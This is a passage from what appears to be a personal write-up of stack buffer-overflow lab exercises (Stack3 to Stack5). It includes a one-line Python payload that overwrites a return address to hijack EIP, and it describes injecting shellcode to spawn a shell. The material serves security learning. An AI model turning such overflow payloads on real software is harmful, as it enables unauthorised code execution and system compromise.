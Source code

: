 |            ![stack3win.PNG](images/stack3win.PNG)            |
| :----------------------------------------------------------: |
| The variable 'switchF' is in our control because of overflow of 'targetInput' |

### Stack4

Vanilla Buffer overflow. Here we overwrite the return address, like covered in several exploit research exercises before. The steps are to calculate the offset, and supply the exploit via command-line arguments to the exploit as shown below.
```python
python -c "print 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf4\x83\x04\x08'" | ./stack4
```

|              ![rootwe-0.PNG](images/stack4.PNG)              |
| :----------------------------------------------------------: |
| A vanilla buffer overflow exploit, controlling the EIP to point to our desired function |

### Stack5

In this challenge, we need to perform a buffer overflow and spawn a shell. Basically, our payload here is a shellcode, and we can write our own or use an existing shellcode. As any standard exploit we need to overwrite the return address and make it point to our shellcode. You can write your own shellcode here, and complete the challenge. This challenge , even though I have executed several buffer overflows for countless similar c programs threw me off. The source code is as simple as it can get. I figure here that because of certain headers being included, this behaves like this. The shellcode runs into an error where it shows "ILLEGAL Instruction" for quite a while, before I had to go with a different exploit design.
